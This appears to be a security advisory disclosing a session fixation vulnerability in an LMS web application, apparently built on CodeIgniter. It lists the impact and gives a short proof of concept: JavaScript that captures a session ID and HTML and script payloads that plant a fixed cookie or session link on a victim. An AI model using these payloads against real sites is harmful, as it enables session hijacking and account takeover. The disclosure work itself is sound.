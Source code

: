 ```php
```

## Impact

An attacker can:
1. **Set a predetermined session ID** for a victim user
2. **Trick the user into logging in** with the fixed session ID
3. **Access the victim's authenticated session** using the known session ID
4. **Perform unauthorized actions** on behalf of the victim
5. **Access sensitive user data** and administrative functions

## Session Fixation Attack Flow

### 1. Session ID Remains Unchanged
The vulnerability exists because the session ID remains the same before and after authentication:

```
Before Login:  ci_session = abc123def456
After Login:   ci_session = abc123def456  (Same ID!)
```

### 2. Attack Prerequisites
- Attacker must be able to set session cookies for the victim
- Victim must log in while using the attacker-controlled session

## Proof of Concept

### Basic Session Fixation Attack

#### Step 1: Attacker Sets Session ID
```javascript
// Attacker visits the login page and gets a session ID
fetch('https://target.com/lms/login')
  .then(response => {
    // Extract session ID from Set-Cookie header
    const sessionId = extractSessionId(response.headers.get('set-cookie'));
    console.log('Fixed Session ID:', sessionId);
    // sessionId = "abc123def456"
  });
```

#### Step 2: Attacker Tricks Victim
```html
<!-- Attacker sends victim a link with fixed session -->
<a href="https://target.com/lms/login;jsessionid=abc123def456">
  Login to Academy LMS
</a>

<!-- Or injects session via XSS (if available) -->
<script>
document.cookie = "ci_session=abc123def456; domain=target.com; path=/";
</script>
```
